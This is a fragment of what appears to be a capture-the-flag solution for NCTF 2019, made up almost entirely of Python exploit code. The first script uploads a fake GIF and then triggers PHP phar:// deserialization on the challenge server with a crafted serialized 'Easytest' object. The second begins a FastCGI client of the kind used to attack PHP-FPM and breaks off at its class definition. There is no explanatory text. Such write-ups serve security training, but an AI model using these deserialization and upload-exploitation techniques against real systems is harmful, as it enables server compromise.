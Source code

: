 ```python
url2 = "http://nctf2019.x1ct34m.com:40004/catchmime.php?careful=O%3A8%3A%22Easytest%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00test%22%3Bs%3A1%3A%221%22%3B%7D"

def upload():
    content = requests.post(url1,files={"fileToUpload":('1.gif',file)}).text
    print content
    return re.findall(r"file (.*) has",content)[0].strip()

def req(filename):
    print requests.post(url2,data={
        'name':'phar:///var/www/html/uploads/{}/test.txt'.format(filename),
        'submit':1
    }).text

name = upload()
print name
req(name)

```
```python
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
```
